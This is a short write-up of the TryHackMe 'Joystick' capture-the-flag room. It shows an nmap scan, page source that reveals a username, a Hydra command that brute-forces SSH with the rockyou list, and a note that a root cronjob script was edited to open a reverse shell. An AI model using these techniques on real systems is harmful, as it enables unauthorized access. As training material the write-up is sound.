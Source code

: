 # Joystick
![alt text](https://tryhackme-images.s3.amazonaws.com/room-icons/a1f2af5e550f182a1efc6c7f0f3ff6b4.png)

## Medium CTF room in [TryHackme](https://tryhackme.com/room/joystick)
# Reconnaissance
  - Nmap Scan
    `nmap -A -T5 -oN nmap.txt -vv <ip>`
    ```bash
    # Nmap 7.80 scan initiated Fri Jun 12 16:58:01 2020 as: nmap -A -T5 -oN nmap.txt -vv 10.10.50.224
    Warning: 10.10.50.224 giving up on port because retransmission cap hit (2).
    Nmap scan report for 10.10.50.224
    Host is up, received conn-refused (0.25s latency).
    Scanned at 2020-06-12 16:58:02 +08 for 90s
    Not shown: 728 closed ports, 269 filtered ports
    Reason: 728 conn-refused and 269 no-responses
    PORT   STATE SERVICE REASON  VERSION
    21/tcp open  ftp     syn-ack vsftpd 3.0.3
    |_ftp-anon: got code 500 "OOPS: vsftpd: refusing to run with writable root inside chroot()".
    22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 c7:ce:5d:fa:24:68:3a:10:63:f9:28:1b:f4:6d:e5:bc (RSA)
    | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDviekIGKBudV6eCKiRkvoK3+KbLYFlqNUkOi/nphorAqF22v/wOzvbr9hcn7/S6STJeYDHVpsKl2Ku5COzQs7zbWkv/jH9LX6R0s5pICbohVvCDjeEvdaMks9yU1/5AYj25RPi1SMLq3boEKuJiu1J+i+ADVTcE4PxvPT6rDOvh9TwVYzWuuezz8nrejAhJGvamsaaJzstZQkn+I7cY2TAeRoRJqnOmLffmNQfG2T4hDm7pg8x7nSHIStlGl3i+SZepokyPm4+rW9tKiJ9bPa9CoW7i/uT7gBFJYGNFPK8i5Rh7KIphWE7W8iMZjNE7ujTSUHnWchGyBmFihEuz777
    |   256 6b:7b:f5:12:e0:db:bb:b0:ca:f8:f8:c0:84:bc:27:e6 (ECDSA)
    | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAFywRYgcs+ORO0qsevRGXL7QGqLeUlNAYjDTWs7FG9hQYYA50Znen7XGzSPIY6gt57HUYp2bWD12rKLw4rcnQw=
    |   256 1b:d4:20:23:d0:5b:32:16:ad:c2:a9:cd:99:1c:e6:6e (ED25519)
    |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOVUvn4lBmcT/u4LxGHkddF39Y3bAnk8CmiVa2DGKFWU
    80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
    | http-methods: 
    |_  Supported Methods: POST OPTIONS GET HEAD
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: JoyStick Gaming
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
    
    Read data files from: /usr/bin/../share/nmap
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Fri Jun 12 16:59:32 2020 -- 1 IP address (1 host up) scanned in 91.03 seconds

    ```
# Website Enum
We can directly see a hint inside the source code.
- Source code
    ```html
        <!DOCTYPE html>
    <html lang="en" dir="ltr">
      <head>
        <meta charset="utf-8">
        <title>JoyStick Gaming</title>
      </head>
      <body>
        <p>JoyStick gaming minecraft server, open shortly to the public!</p>
        <!-- Zach, I don't care that you named your user steve. You still need to
          finish making the website -->
        <!-- Great, and now the FTP server just doesn't work. Just another great idea after
    	your failed irc chat. Why would we use that when we have in game chat? 
    	Not to mention that I know you still haven't reset your password.  -->
      </body>
    </html> 

    ```

From this we have a potential user "steve"

# User Access
To get user access we can symply brute-force the ssh login with user 'steve' and use rockyou password list
- Brute-Forcing
    Here i am going to use Hydra 
    `hydra -l steve -P /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt <ip> ssh`
    ```bash
    [22][ssh] host: 10.10.50.224   login: steve   password: ********
    ```
    You will find the password of user steve and get user flag easily.

# Privilege Escalation

Actually to get the root.txt in this machine, we don't really need to escalate our privilege. It is because the root.txt is stored in other user's home directory.
yet we are still going to do it for the fun of it.

- Cronjob
on the crontab we can see that /opt/minecraft/backup.sh is executed as root
we can edit the file to return a reverse shell to us.

Sorry for no Screenshot of the crontab, it is just my machine was so slow.

here is the edited backup.sh and the shell we get
![alt text](https://i.imgur.com/ejkruLo.png)

So, thats all, yea thx hhh,,
